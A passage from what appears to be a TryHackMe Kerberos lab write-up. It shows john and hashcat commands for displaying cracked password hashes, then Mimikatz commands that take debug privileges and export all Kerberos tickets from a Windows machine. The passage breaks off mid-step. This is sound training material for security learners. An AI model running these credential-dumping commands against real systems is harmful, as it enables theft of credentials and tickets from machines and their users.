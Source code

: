 **Again if you error out you can run the --show option for both cracking tools to see the password**

```bash
john --show hash.txt
```

```bash
hashcat --show hash.txt
```


## Task 6
---
Now we will start exploring the use of Mimikatz. 
first things first ensure you have proper permissions to run mimikatz
do so by entering 
```cmd
privilege::debug
```

you should see the following output.
![](/assets/images/thm/kerberos/mimikatz-priv.png)

one thing we can do is grab all available client tickets on the machine.
```cmd
sekurlsa::tickets /export
```

You will see a lot of output like the following. This command just grabbed all the available tickets and placed them within your working directory. In this case, Downloads.
![](/assets/images/thm/kerberos/mimikatz-tickets1.png)

You can see this in file explorer here